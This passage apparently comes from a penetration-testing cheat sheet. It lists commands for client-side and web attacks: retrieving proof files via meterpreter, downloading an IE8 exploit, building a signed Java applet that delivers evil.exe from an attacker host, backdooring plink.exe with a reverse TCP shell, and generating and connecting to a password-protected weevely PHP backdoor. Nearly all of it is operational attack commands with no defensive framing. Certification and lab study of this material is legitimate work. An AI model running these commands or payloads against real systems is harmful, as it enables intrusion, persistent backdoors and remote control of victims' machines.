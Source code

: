 -   Find and display the proof.txt or flag.txt - get the loot!
    
    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip 
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        `ls -l /usr/share/webshells/`

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack
